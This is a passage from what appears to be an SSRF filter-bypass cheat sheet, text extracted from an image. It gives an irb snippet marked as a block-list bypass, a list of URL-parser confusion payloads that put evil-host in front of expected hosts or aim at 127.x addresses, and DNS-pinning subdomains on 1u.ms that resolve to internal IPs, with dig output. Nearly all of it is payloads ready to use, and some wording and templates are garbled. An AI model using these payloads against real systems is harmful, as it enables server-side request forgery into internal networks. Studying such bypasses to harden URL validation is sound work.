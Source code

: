 ```
irb(main):005:0- (blocked_ips & server_ips).any?
=- false # Bypass
```
​​
​​
## Broken parser
The  contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

-Embedded credentials in a URL before the hostname, using the @ character: https://expected-host@evil-host

-Indication a URL fragment using the # character: https://evil-host#expected-host

-DNS naming hierarchy: https://expected-host.evil-host

-URL-encode characters. This can help confuse URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.

Combinations of these techniques together:
```
foo@evil-host:80@expected-host
foo@evil-host%20@expected-host
evil-host%09expected-host
127.1.1.1:80\@127.2.2.2:80
127.1.1.1:80:\@@127.2.2.2:80
127.1.1.1:80#\@127.2.2.2:80
ß.evil-host
```
​​
​​
​​## DNS pinning
If you want to get a A-record that resolves to an IP, use the following subdomain:
```
make-<IP--rr.1u.ms 
```

For example, domain resolves make-127-0-0-1-rr.1u.ms to 127.0.0.1:
```
$ dig A make-127-0-0-1-rr.1u.ms
make-127-0-0-1-rr.1u.ms. 0	IN	A	127.0.0.1
```

Multiple records can be separated by -and-:
```
make-<IP--and-<IP--rr.1u.ms
```

For example, domain resolves make-127-0-0-1-and-127-127-127-127-rr.1u.ms to 127.0.0.1 and 127.127.127.127:
```
$ dig A make-127-0-0-1-and-127-127-127-127-rr.1u.ms
make-127-0-0-1-and-127-127-127-127-rr.1u.ms. 0 IN A 127.0.0.1
make-127-0-0-1-and-127-127-127-127-rr.1u.ms. 0 IN A 127.127.127.127
```

